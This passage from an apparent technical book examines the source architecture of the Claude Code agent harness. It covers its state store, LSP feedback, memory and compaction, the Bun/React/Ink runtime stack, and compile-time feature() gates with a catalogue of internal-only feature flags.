**The `src/hooks/` vs `src/utils/hooks/` naming collision.** Two directories share the word "hooks" but serve entirely different purposes. `src/hooks/` contains React hooks for UI state (typeahead, voice, keybindings, the permission decision hook `useCanUseTool`). `src/utils/hooks/` contains harness lifecycle hooks (PreToolUse, PostToolUse, Notification) and their execution pipelines. This collision is a source of confusion for new developers and a naming lesson for builders of new harnesses.

**The `src/state/` directory as the nervous system.** The three files in `src/state/` -- `AppState.tsx` (199 LOC), `AppStateStore.ts` (569 LOC), and `onChangeAppState.ts` (171 LOC) -- form the central nervous system of the harness. Every UI component, every tool dispatch, every permission check reads from or writes to the app state. The store is initialized during bootstrap (`src/bootstrap/state.ts` at 1,758 LOC) and accessed throughout the harness via React hooks and direct imports. The `src/main.tsx:L168` import shows how deeply the store is integrated:

```typescript
// src/main.tsx:L168
import { type ChannelEntry, getInitialMainLoopModel, getIsNonInteractiveSession, getSdkBetas, getSessionId, getUserMsgOptIn, setAllowedChannels, setAllowedSettingSources, setChromeFlagOverride, setClientType, setCwdState, setDirectConnectServerUrl, setFlagSettingsPath, setInitialMainLoopModel, setInlinePlugins, setIsInteractive, setKairosActive, setOriginalCwd, setQuestionPreviewFormat, setSdkBetas, setSessionBypassPermissionsMode, setSessionPersistenceDisabled, setSessionSource, setUserMsgOptIn, switchSession } from './bootstrap/state.js';
```

A single import from `bootstrap/state.js` brings in 23 functions. This density is a symptom of the bootstrap state's role as a global mutable registry, and it creates coupling between every subsystem that reads or writes to it.

## Where cc diverges from the published pattern

The HER reference architecture (section 21) describes Layer 4 (Quality Gates) as including pre-commit type-check, lint, and format checks, plus post-commit unit tests and integration tests. cc's implementation diverges significantly: it provides the *wiring* for quality gates (LSP integration, tool dispatch hooks) but does not provide the gates themselves. The harness assumes that the host repository already has its own test infrastructure, and cc wires into it via the Bash tool and hook system rather than providing built-in quality gates.

This divergence is deliberate. cc is a CLI-first, repository-agnostic harness. It cannot assume a specific test framework, linter, or build system. Instead, it provides the mechanisms (hooks, tool dispatch, LSP) through which quality gates can be wired in, and delegates the gate definitions to the host repository's CLAUDE.md and settings configuration.

The LSP integration in `src/services/lsp/` illustrates this approach. The `LSPServerManager.ts` (420 LOC) manages LSP server instances, `LSPServerInstance.ts` (511 LOC) handles individual server lifecycles, and `LSPClient.ts` (447 LOC) provides the client interface. But cc does not define what the LSP servers check -- it merely provides the infrastructure for connecting to them. The actual diagnostics (type errors, lint warnings) come from the language servers that the host repository configures.

The `src/services/lsp/passiveFeedback.ts` (328 LOC) is particularly interesting. It implements a passive feedback mechanism that feeds LSP diagnostics back into the model's context without requiring explicit tool calls. This is a sensor in Fowler's taxonomy (HER section 4.2) -- a feedback control that observes agent outputs after generation and enables self-correction. The "passive" qualifier means the diagnostics are injected into the context silently, without the model having to request them. This is a subtle but powerful design: the model receives quality feedback automatically, without having to remember to check for it.

The HER also notes that Layer 8 (Learning and Adaptation) should include "harness configuration versioning and A/B testing (Meta-Harness approach)." cc's `src/services/autoDream/` and `src/services/SessionMemory/` implement memory consolidation and extraction, but cc does not have a Meta-Harness that A/B tests harness configurations. The GrowthBook integration (`src/services/analytics/growthbook.ts` at 1,155 LOC) provides feature flag A/B testing for *features*, not for *harness configurations*. This is a gap that the roadmap (Chapter 56) addresses.

The `src/memdir/` directory provides another perspective on cc's divergence from the published pattern. The HER describes Layer 3 (Context Engineering) as including "tiered memory (always-loaded index + on-demand topic files)." cc's memdir implements this exactly: `src/memdir/memdir.ts` (507 LOC) manages the memory directory, `src/memdir/memoryTypes.ts` (271 LOC) defines the memory types (user, feedback, project, reference), `src/memdir/paths.ts` (278 LOC) manages storage paths, and `src/memdir/findRelevantMemories.ts` (141 LOC) implements relevance retrieval. But cc diverges in one important way: the HER specifies a "compact index (200 lines max) always in context," while cc's implementation uses a `MEMORY.md` index file with a less strict size limit. This divergence reflects a practical tradeoff: a strict 200-line limit would require more aggressive pruning, which could lose important context.

The `src/services/compact/` directory is the most substantial implementation of HER Layer 3. With eight files totaling over 3,400 lines, it implements the five-stage compaction hierarchy that is cc's primary defense against context rot (HER section 6.1). The `compact.ts` (1,705 LOC) file is the largest, implementing the full compaction pipeline. The `autoCompact.ts` (351 LOC) handles the automatic compaction trigger. The `microCompact.ts` (530 LOC) implements the lightweight first stage. The `apiMicrocompact.ts` (153 LOC) and `sessionMemoryCompact.ts` (630 LOC) handle specialized compaction cases. This depth of implementation reflects the critical importance of context management in a long-running agent: without compaction, the agent would quickly exhaust its context window and become unreliable.

## Developer takeaways for building a long-running agent

1. **The entry point is the map.** Reading the imports at the top of `src/main.tsx` and `src/entrypoints/cli.tsx` reveals every major subsystem and its startup order. This is the fastest way to understand the codebase's structure.

2. **The HER 8-layer mapping is aspirational, not prescriptive.** cc covers most layers partially but none completely. The gaps are as informative as the coverage -- they reveal where the discipline has not yet produced production-grade patterns.

3. **Feature flags are architectural boundaries.** The `feature()` gates in cc are not toggles; they are compile-time boundaries that determine which code exists in the external build. Understanding which features are gated is essential for understanding what the published harness actually contains.

4. **The utils/ directory is a warning sign.** When utils becomes a monolith, the codebase has outgrown its directory structure. For builders of new harnesses, investing in clear module boundaries early (separating permissions, hooks, and settings into first-class directories) prevents this accumulation.

5. **The tool directory contract is reusable.** Each tool follows the same subdirectory pattern (implementation, prompt, UI). This contract is straightforward to replicate in a new harness and provides a consistent developer experience for adding new tools.

6. **The `src/main.tsx` concentration is a tradeoff, not a mistake.** The file's size makes it difficult to navigate, but it ensures that the entire startup sequence is linear and auditable. For a harness where startup correctness is critical, this tradeoff is defensible.

7. **Platform-specific duplication is a tax, not a bug.** The Bash/PowerShell mirror reflects the legitimate differences between Unix and Windows security models. Accepting this duplication is more honest than pretending a single abstraction can cover both.

8. **The buddy directory is a reminder that UX warmth matters.** The Tamagotchi system does not serve a functional purpose in the harness, but it serves an emotional purpose for the user. Long-running agents that feel cold and mechanical will be replaced by agents that feel warm and responsive, even if the warmth is decorative.

9. **The `src/hooks/` vs `src/utils/hooks/` naming collision is a warning.** Two directories share the word "hooks" but serve entirely different purposes: React hooks for UI state versus harness hooks for lifecycle events. For a new harness, consider naming conventions that disambiguate these concepts from the start.

10. **The `src/bridge/` directory is not multi-agent coordination.** It is human-to-agent coordination through an IDE intermediary. The distinction matters because the bridge must handle different security and trust assumptions than agent-to-agent communication: the IDE is a trusted endpoint, but the network between the IDE and the cc session is not.
# TypeScript, Bun, React, Ink: The Unusual Runtime Stack

## Overview

cc runs on an unusual technology stack: TypeScript compiled by Bun, rendered via React using Ink (a custom React renderer for the terminal). This combination was not chosen for novelty. Each component solves a specific problem in the harness design space, and the tradeoffs are instructive for anyone building a long-running agent. This chapter examines why cc chose this stack, what each component contributes, where the tradeoffs lie, and how the stack connects to the HER thesis that harnesses are language- and runtime-specific.

The stack is visible from the first line of the codebase. `src/entrypoints/cli.tsx` opens with `import { feature } from 'bun:bundle'`, establishing a dependency on Bun's build-time feature flag system before any other module is loaded. `src/main.tsx` imports React and the Ink renderer to construct the terminal UI. `src/ink/ink.tsx` implements a custom React reconciler that renders to a terminal screen buffer instead of a DOM. Every subsequent chapter in this book depends on understanding this stack, because the stack shapes what the harness can do and what it cannot.

The choice of this stack is not arbitrary. It reflects three deliberate architectural decisions. First, cc must be a CLI tool that runs in a terminal, which requires a terminal rendering engine. Second, cc must support compile-time feature elimination for security and performance, which requires a build system that supports dead-code elimination. Third, cc must support component-based UI composition for complex tool output, permission dialogs, and typeahead suggestions, which benefits from a component model like React. Each of these decisions constrains the runtime choice, and Bun is the only runtime that satisfies all three simultaneously.

## Data structures and contracts

The stack is visible in the first lines of the entry point:

```typescript
// src/entrypoints/cli.tsx:L1-L5
import { feature } from 'bun:bundle';

// Bugfix for corepack auto-pinning, which adds yarnpkg to peoples' package.jsons
// eslint-disable-next-line custom-rules/no-top-level-side-effects
process.env.COREPACK_ENABLE_AUTO_PIN = '0';
```

The `bun:bundle` import is the first architectural commitment: cc depends on Bun's build-time feature flag system for dead-code elimination. This is not a casual dependency; it is structural. The `feature()` function is used throughout the codebase to gate entire modules at compile time:

```typescript
// src/entrypoints/cli.tsx:L16-L26
// Harness-science L0 ablation baseline. Inlined here (not init.ts) because
// BashTool/AgentTool/PowerShellTool capture DISABLE_BACKGROUND_TASKS into
// module-level consts at import time — init() runs too late. feature() gate
// DCEs this entire block from external builds.
// eslint-disable-next-line custom-rules/no-top-level-side-effects, custom-rules/no-process-env-top-level
if (feature('ABLATION_BASELINE') && process.env.CLAUDE_CODE_ABLATION_BASELINE) {
  for (const k of ['CLAUDE_CODE_SIMPLE', 'CLAUDE_CODE_DISABLE_THINKING', 'DISABLE_INTERLEAVED_THINKING', 'DISABLE_COMPACT', 'DISABLE_AUTO_COMPACT', 'CLAUDE_CODE_DISABLE_AUTO_MEMORY', 'CLAUDE_CODE_DISABLE_BACKGROUND_TASKS']) {
    // eslint-disable-next-line custom-rules/no-top-level-side-effects, custom-rules/no-process-env-top-level
    process.env[k] ??= '1';
  }
}
```

The `feature()` gates are not runtime toggles. They are compile-time directives that Bun uses to eliminate entire code paths from the published build. This is critical for security (removing internal-only features from the external build) and for performance (reducing the module graph that must be loaded at startup). The ablation baseline block above is a concrete example: it exists only in internal builds where `feature('ABLATION_BASELINE')` is true. In the published npm package, this entire block is eliminated during compilation, and no trace of it exists in the output.

The bundled mode detection shows another Bun-specific dependency:

```typescript
// src/utils/bundledMode.ts:L7-L22
export function isRunningWithBun(): boolean {
  // https://bun.com/guides/util/detect-bun
  return process.versions.bun !== undefined
}

/**
 * Detects if running as a Bun-compiled standalone executable.
 * This checks for embedded files which are present in compiled binaries.
 */
export function isInBundledMode(): boolean {
  return (
    typeof Bun !== 'undefined' &&
    Array.isArray(Bun.embeddedFiles) &&
    Bun.embeddedFiles.length > 0
  )
}
```

cc can detect whether it is running as a Bun-compiled standalone executable by checking for embedded files. This distinction matters because the bundled mode changes behavior: it affects how settings are loaded, how updates are handled, and how the harness detects its own installation context. The `isRunningWithBun()` function provides the first-level check, and `isInBundledMode()` provides the second-level check that distinguishes between running from source and running from a compiled binary.

The React/Ink integration defines the terminal rendering contract:

```typescript
// src/ink/ink.tsx:L67-L80
export type Options = {
  stdout: NodeJS.WriteStream;
  stdin: NodeJS.ReadStream;
  stderr: NodeJS.WriteStream;
  exitOnCtrlC: boolean;
  patchConsole: boolean;
  waitUntilExit?: () => Promise<void>;
  onFrame?: (event: FrameEvent) => void;
};
export default class Ink {
  private readonly log: LogUpdate;
  private readonly terminal: Terminal;
  private scheduleRender: (() => void) & {
    cancel?: () => void;
```

The `Ink` class is a custom React reconciler. It does not render to a DOM; it renders to a terminal screen buffer. The `Options` type shows the terminal-specific contracts: `stdout`, `stdin`, `stderr` streams, a `patchConsole` option, and an `exitOnCtrlC` flag. These are terminal concepts, not browser concepts, but the component model is pure React: components, props, state, effects, and reconciliation.

## Control flow

The runtime stack flows from the bottom up:



Bun provides three things that Node.js does not: (1) native TypeScript/TSX compilation without a separate build step, (2) `Bun.fork()` for spawning subagents as child processes with IPC, and (3) `bun:bundle` feature flags for compile-time dead-code elimination. The first eliminates the build toolchain from the developer experience. The second enables cc's fork-based subagent model (Chapter 19). The third is structural to the security model, allowing internal-only features to be stripped from the published build.

The feature flag system shapes which code paths exist at runtime. In `src/main.tsx`, the coordinator module is conditionally loaded:

```typescript
// src/main.tsx:L74-L77
// Dead code elimination: conditional import for COORDINATOR_MODE
/* eslint-disable @typescript-eslint/no-require-imports */
const coordinatorModeModule = feature('COORDINATOR_MODE')
  ? require('./coordinator/coordinatorMode.js') as typeof import('./coordinator/coordinatorMode.js')
  : null;
/* eslint-enable @typescript-eslint/no-require-imports */
// Dead code elimination: conditional import for KAIROS (assistant mode)
/* eslint-disable @typescript-eslint/no-require-imports */
const assistantModule = feature('KAIROS')
  ? require('./assistant/index.js') as typeof import('./assistant/index.js')
  : null;
const kairosGate = feature('KAIROS')
  ? require('./assistant/gate.js') as typeof import('./assistant/gate.js')
  : null;
```

This pattern repeats for KAIROS, the daemon system, background sessions, and other internal-only features. Each `feature()` check is a compile-time gate: if the feature is not enabled, the `require()` call and the entire module it loads are eliminated from the output. This is not lazy loading; it is dead-code elimination. The module does not exist in the published build at all.

React, via the Ink terminal renderer, provides the component model for the terminal UI. The Ink renderer at `src/ink/ink.tsx` (1,722 LOC) implements a custom React reconciler from scratch. The reconciler follows the standard React reconciliation algorithm but with terminal-specific adaptations. On each render cycle, the reconciler walks the component tree, calls `render()` on each component to produce React elements, and computes a fiber tree. It then diffs the new fiber tree against the previous one to produce a minimal set of mutations. Unlike the DOM reconciler, which produces DOM mutations (createElement, setAttribute, appendChild), the Ink reconciler produces terminal buffer mutations: write a character at a row/column position, apply a style code, or clear a region. The diff is not a virtual DOM diff in the browser sense; it is a character-by-character comparison of the terminal grid, optimized through the `CharPool` interning system so that most comparisons are integer equality checks rather than string comparisons.

Layout computation uses Yoga, a Flexbox layout engine compiled to native code via Bun's native binding support. Yoga takes the React component tree and computes the x/y position and width/height of each node according to the CSS Flexbox specification. In a browser, the browser's layout engine performs this step implicitly. In the terminal, cc must compute layout explicitly because there is no browser layout engine. The computed layout determines which characters land at which terminal coordinates. This is why the Ink renderer must manage the entire rendering pipeline: component tree to fiber diff to layout computation to terminal buffer write. Each step is explicit and each has performance implications. The Yoga layout pass is synchronous and must complete within the frame budget (controlled by `FRAME_INTERVAL_MS` in `src/ink/constants.ts`). For complex component trees with many nested Flexbox containers, the layout pass can become a bottleneck, which is why cc's component tree is kept relatively flat compared to a typical web application.

The screen module at `src/ink/screen.ts` (1,486 LOC) manages the terminal screen buffer with interning pools for character strings and style codes, optimizing for the high-frequency render cycles that the query loop demands.

The screen buffer uses a `CharPool` class for character interning:

```typescript
// src/ink/screen.ts:L21-L53
// Character string pool shared across all screens.
// With a shared pool, interned char IDs are valid across screens,
// so blitRegion can copy IDs directly (no re-interning) and
// diffEach can compare IDs as integers (no string lookup).
export class CharPool {
  private strings: string[] = [' ', ''] // Index 0 = space, 1 = empty (spacer)
  private stringMap = new Map<string, number>([
    [' ', 0],
    ['', 1],
  ])
  private ascii: Int32Array = initCharAscii() // charCode → index, -1 = not interned

  intern(char: string): number {
    // ASCII fast-path: direct array lookup instead of Map.get
    if (char.length === 1) {
      const code = char.charCodeAt(0)
      if (code < 128) {
        const cached = this.ascii[code]!
        if (cached !== -1) return cached
        const index = this.strings.length
        this.strings.push(char)
        this.ascii[code] = index
        return index
      }
    }
    const existing = this.stringMap.get(char)
    if (existing !== undefined) return existing
    const index = this.strings.length
    this.strings.push(char)
    this.stringMap.set(char, index)
    return index
  }
```

The `CharPool` is an optimization that reflects the performance demands of terminal rendering. Every keystroke, every streaming token, every tool output update triggers a render cycle. The pool interns characters so that diff operations can compare integer IDs instead of strings, and the ASCII fast-path avoids Map lookups for the common case. This is the kind of low-level optimization that a DOM renderer handles automatically but that a terminal renderer must implement explicitly.



## Edge cases and failure modes

**Startup time.** The `src/main.tsx` import list is massive -- over 60 modules are imported before the first render. The codebase mitigates this through three strategies: (1) dynamic imports in `cli.tsx` for fast-path routes, (2) MDM and keychain prefetches that run in parallel with module evaluation, and (3) lazy `require()` calls for circular-dependency-breaking modules. Despite these optimizations, the startup time remains a tradeoff: the harness pays the cost of loading the full module graph even when the user only needs `--version`. The startup profiler (`src/utils/startupProfiler.ts`) is the diagnostic tool for measuring this cost, with `profileCheckpoint()` calls scattered throughout the entry points.

**Distributability.** The Bun runtime is not as widely available as Node.js. cc addresses this through bundled mode (`isInBundledMode()`), which compiles the entire application into a standalone executable using `Bun.embeddedFiles`. This eliminates the runtime dependency but increases the binary size and complicates the update mechanism.

**React for the terminal.** Using React for a terminal UI is unusual and has tradeoffs. The component model provides excellent composability for complex layouts (tool output panels, permission dialogs, typeahead suggestions), but the reconciliation overhead adds latency to every render cycle. cc mitigates this with its custom screen buffer, character interning pools, and diff-based terminal output, but the fundamental tradeoff remains: React's abstraction is designed for DOM rendering, and bending it to the terminal requires significant custom infrastructure (1,722 LOC for the Ink class alone, plus 1,486 LOC for the screen module).

**Feature flag coupling.** The `feature()` gates create a tight coupling between the codebase and Bun's build system. Code that uses `feature('FLAG_NAME')` cannot be tested or run outside the Bun compilation pipeline. This means that internal features (KAIROS, COORDINATOR_MODE, DAEMON, BRIDGE_MODE) cannot be developed or tested in isolation from the build system. The `isRunningWithBun()` check in `bundledMode.ts` provides a runtime escape hatch for code that needs to behave differently on Node.js versus Bun.

**Memory pressure from the terminal buffer.** The screen buffer's character and style interning pools grow monotonically during a session. For long-running sessions (hours), this can accumulate significant memory. The `CharPool` and `HyperlinkPool` classes do not implement eviction, so every unique character and hyperlink encountered during a session remains in memory until the process exits.

**The TSX compilation requirement.** cc's use of `.tsx` files for the entry point (`cli.tsx`) and the main module (`main.tsx`) means that the runtime must support JSX compilation. Bun provides this natively, but it creates a hard dependency on a runtime that can compile TSX. Node.js cannot run these files without a separate build step (Babel, esbuild, or tsc), which adds startup latency and build complexity. This is a conscious tradeoff: cc chose developer experience (writing TSX directly) over runtime portability (writing plain TypeScript that Node.js can run).

**The Ink reconciler's frame rate.** The Ink renderer targets a specific frame interval (defined in `src/ink/constants.ts` as `FRAME_INTERVAL_MS`). This interval determines how frequently the terminal UI updates during streaming. If the interval is too short, the terminal flickers and the CPU spins. If the interval is too long, the user sees delayed output. The throttle mechanism in `src/ink/ink.tsx` manages this tradeoff, but it is tuned for the common case (streaming text output) and may not be optimal for all tool output patterns.

**The `src/ink/screen.ts` character interning optimization.** The `CharPool` class in `src/ink/screen.ts:L21-L53` implements an ASCII fast-path that uses an `Int32Array` for direct array lookup instead of `Map.get` for ASCII characters (code points below 128). This optimization is critical for terminal rendering performance, because the vast majority of characters in source code are ASCII. The fast-path reduces the overhead of character interning from a hash map lookup to a direct array access, which is an order of magnitude faster. This is the kind of optimization that is invisible in a DOM renderer but essential in a terminal renderer that must update on every streaming token.

## Where cc diverges from the published pattern

The HER thesis (section 4) presents Fowler's taxonomy of guides and sensors, and notes that "harnessability" varies by language and framework: strongly typed languages, clear module boundaries, and conventional frameworks improve harnessability. cc's stack choice aligns with this principle: TypeScript provides strong typing, React provides a component model with clear boundaries, and Bun provides a conventional build system.

However, cc diverges from the published pattern in an important way. Fowler's taxonomy focuses on the harness as a *consumer* of language and runtime features. cc demonstrates that the harness is also a *producer* of runtime-specific features. The `feature()` gate system, the `Bun.fork()` subagent model, and the Ink terminal renderer are not just consumers of the runtime -- they are extensions of it. The harness and the runtime are co-designed, not loosely coupled.

This co-design has a cost: portability. cc cannot be ported to Node.js without replacing the `feature()` system, the `Bun.fork()` subagent model, and the Bun-specific bundled mode detection. It cannot be ported to a browser runtime without replacing the entire Ink rendering layer. The HER thesis that harnesses are language- and runtime-specific is not just a theoretical observation -- it is an architectural constraint that cc embodies fully.

The HER section 12 (supply chain) raises another concern. cc's dependency on Bun means that the supply chain includes the Bun runtime itself. A vulnerability in Bun would affect every cc installation. Similarly, the React dependency means that any vulnerability in React or Ink would propagate to the harness. The HER recommends vetting all supply chain dependencies, and cc's tight coupling to its runtime stack makes this vetting more critical, not less.

The HER section 4 taxonomy of guides and sensors provides a useful lens for evaluating the stack choice. TypeScript's type system is a computational guide (Fowler's term for deterministic, fast controls that prevent unwanted behavior before it occurs). The type checker catches incorrect tool input shapes, invalid state transitions, and mismatched API calls at compile time, before the harness ever runs. This is a structural advantage that dynamically typed languages cannot provide. The React component model is a scaffold for both guides (prop types, context contracts) and sensors (render effects, state subscriptions). The Ink renderer extends this scaffold to the terminal, providing the same component model but with terminal-specific rendering constraints.

Fowler's concept of "harnessability" (HER section 4.5) is directly relevant to the stack choice. He identifies factors that improve harnessability: strongly typed languages, clear module boundaries, and conventional frameworks. cc's stack scores well on all three: TypeScript provides strong typing, the tool subdirectory contract provides clear module boundaries, and React/Ink provides a conventional component model. But Fowler's caveat is important: "Legacy systems with technical debt face particular challenges: harnesses are most necessary where hardest to build." As cc accumulates technical debt (the 4,683-line `main.tsx`, the 5,512-line `src/utils/messages.ts`), its harnessability may degrade, making the harness harder to maintain even as it becomes more necessary.

## The `feature()` Gate and Compile-Time Dead Code Elimination

Claude Code ships in two build variants: **ant** (internal, Anthropic-employee-facing) and **external** (public, user-facing). The distinction is not a runtime toggle. It is a compile-time split that eliminates entire code paths, entire modules, and every string literal reachable only through those paths from the external binary. The mechanism is Bun's `feature()` function from the `bun:bundle` module.

The `feature()` function is a compile-time predicate. When Bun's bundler evaluates the source, each `feature('FLAG_NAME')` call is resolved to a boolean constant: `true` in the ant build, `false` in the external build. The bundler then performs standard dead-code elimination (DCE): any branch guarded by a false `feature()` check is removed entirely. This removal is transitive -- if the eliminated branch contained the only `require()` call for a module, that module and everything it imports are also eliminated. The result is that internal-only code is *physically absent* from the external binary, not hidden behind a runtime check that an attacker could bypass.

The pattern is visible from the first line of the codebase. `src/entrypoints/cli.tsx:L1` opens with `import { feature } from 'bun:bundle'`, establishing the DCE dependency before any application module is loaded. The ablation baseline block at `src/entrypoints/cli.tsx:L21-L26` is a concrete example:

```typescript
// src/entrypoints/cli.tsx:L21-L26 — Ablation baseline, DCE'd from external builds
if (feature('ABLATION_BASELINE') && process.env.CLAUDE_CODE_ABLATION_BASELINE) {
  for (const k of ['CLAUDE_CODE_SIMPLE', 'CLAUDE_CODE_DISABLE_THINKING',
    'DISABLE_INTERLEAVED_THINKING', 'DISABLE_COMPACT', 'DISABLE_AUTO_COMPACT',
    'CLAUDE_CODE_DISABLE_AUTO_MEMORY', 'CLAUDE_CODE_DISABLE_BACKGROUND_TASKS']) {
    process.env[k] ??= '1';
  }
}
```

In the external build, `feature('ABLATION_BASELINE')` evaluates to `false`, so the bundler replaces the entire `if` block with nothing. The string `'CLAUDE_CODE_ABLATION_BASELINE'`, the loop body, and every environment variable name listed inside are absent from the output. This is structural security: an external user cannot discover that ablation baselines exist by inspecting the binary.

The `feature()` gate must appear in a position where the bundler can perform branch analysis. It works in `if` statements and ternary expressions. It does not work in indirect positions -- assigning the result to a variable and testing the variable later prevents the bundler from tracing the constant through the data flow. The comment in `src/query.ts:L796-L798` documents this constraint explicitly: "feature() only works in if/ternary conditions (bun:bundle static analysis boundary)."

A subtle correctness requirement governs how `feature()` interacts with inline string literals. The pattern must use a *positive ternary* -- `feature('X') ? <true-branch> : <false-branch>` -- rather than a negative guard like `if (!feature('X')) return`. The comment in `src/voice/voiceModeEnabled.ts:L17-L18` explains: "Positive ternary pattern -- see docs/feature-gating.md. Negative pattern (if (!feature(...)) return) does not eliminate inline string literals from external builds." The negative pattern leaves the remainder of the function body reachable in the bundler's analysis, even though the early return would prevent execution at runtime. The positive ternary makes the false branch a syntactically distinct code path that the bundler can prove unreachable and remove entirely.

### `require()` vs `import()` for Dead Code Elimination

The codebase uses synchronous `require()` calls inside ternary expressions for feature-gated modules, not dynamic `import()`. This is a deliberate choice rooted in how Bun's bundler performs static analysis.

`require()` is synchronous. It executes immediately at module-load time and returns the module's exports object. The bundler can statically determine whether a `require()` call is reachable: if it appears in the false branch of a `feature()` ternary, the call is provably unreachable and the module is eliminated. `import()`, by contrast, returns a Promise. It creates an asynchronous boundary that the bundler cannot statically reason about in the same way, because the Promise resolution is deferred to runtime. The bundler must conservatively assume the module might be needed.

The canonical pattern appears throughout the codebase. Here is the coordinator module import from `src/main.tsx:L74-L76`:

```typescript
// src/main.tsx:L74-L76 — DCE-safe require with type assertion
const coordinatorModeModule = feature('COORDINATOR_MODE')
  ? require('./coordinator/coordinatorMode.js') as typeof import('./coordinator/coordinatorMode.js')
  : null;
```

The `as typeof import(...)` type assertion preserves TypeScript type safety even though the module is loaded via `require()`. When `COORDINATOR_MODE` is `false`, the bundler eliminates the `require()` call and the entire `./coordinator/coordinatorMode.js` module tree. The variable `coordinatorModeModule` is assigned `null`, and every downstream usage is guarded by a null check that the bundler can also eliminate.

The `require()` calls are wrapped in `/* eslint-disable @typescript-eslint/no-require-imports */` blocks because the TypeScript ESLint rules prefer ESM `import` statements. The linter exception documents the deliberate architectural choice -- this is not a legacy pattern but a DCE requirement.

A related pattern uses lazy `require()` inside a thunk to break circular dependencies without compromising DCE. In `src/tools.ts:L63-L72`, team-related tools use this pattern:

```typescript
// src/tools.ts:L63-L68 — Lazy require to break circular dependency
const getTeamCreateTool = () =>
  require('./tools/TeamCreateTool/TeamCreateTool.js')
    .TeamCreateTool as typeof import('./tools/TeamCreateTool/TeamCreateTool.js').TeamCreateTool
const getTeamDeleteTool = () =>
  require('./tools/TeamDeleteTool/TeamDeleteTool.js')
    .TeamDeleteTool as typeof import('./tools/TeamDeleteTool/TeamDeleteTool.js').TeamDeleteTool
```

These are not feature-gated (both tools ship in both builds), but the lazy thunk defers evaluation past the circular import cycle. The DCE-gated `require()` pattern and the circular-dependency-breaking `require()` pattern coexist in the same file, each solving a different problem with the same mechanism.

### Feature Flag Catalog

The codebase uses 88 distinct `feature()` flags as of the current source. The following table catalogs the flags by subsystem, indicating which are ant-only (eliminated from external builds) and which are available in both variants.

**Infrastructure and Entry Points**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `DAEMON` | Long-running supervisor process for background workers (`cli.tsx:L100`) | Yes |
| `BRIDGE_MODE` | Remote control -- serve local machine as a bridge environment (`cli.tsx:L112`) | Yes |
| `BG_SESSIONS` | Background session management: `ps`, `logs`, `attach`, `kill` (`cli.tsx:L185`) | Yes |
| `BYOC_ENVIRONMENT_RUNNER` | Headless Bring-Your-Own-Cloud runner (`cli.tsx:L226`) | Yes |
| `SELF_HOSTED_RUNNER` | Self-hosted runner targeting internal API (`cli.tsx:L238`) | Yes |
| `TEMPLATES` | Template job commands: `new`, `list`, `reply` (`cli.tsx:L212`) | Yes |
| `DIRECT_CONNECT` | Direct-connect session creation without a relay (`main.tsx:L548`) | Yes |
| `SSH_REMOTE` | SSH-based remote session launch (`main.tsx:L577`) | Yes |
| `CCR_AUTO_CONNECT` | Automatic reconnect for Claude Code Remote sessions | Yes |
| `CCR_MIRROR` | Mirror mode for CCR screen sharing | Yes |
| `CCR_REMOTE_SETUP` | Remote setup flow for CCR environments | Yes |
| `LODESTONE` | Lodestone integration for session routing (`main.tsx:L647`) | Yes |

**AI Orchestration and Context Management**

| Flag | Purpose | Ant-Only |
|------|---------|----------|
| `COORDINATOR_MODE` | Multi-agent coordinator with scratchpad protocol (`tools.ts:L120`) | Yes |
| `REACTIVE_COMPACT` | Reactive compaction on prompt-too-long errors (`query.ts:L15`) | Yes |
| `CONTEXT_COLLAPSE` | Granular context archiving that preserves recent turns (`query.ts:L18`) | Yes |
| `HISTORY_SNIP` | Aggressive history truncation for long SDK sessions (`query.ts:L115`) | Yes |
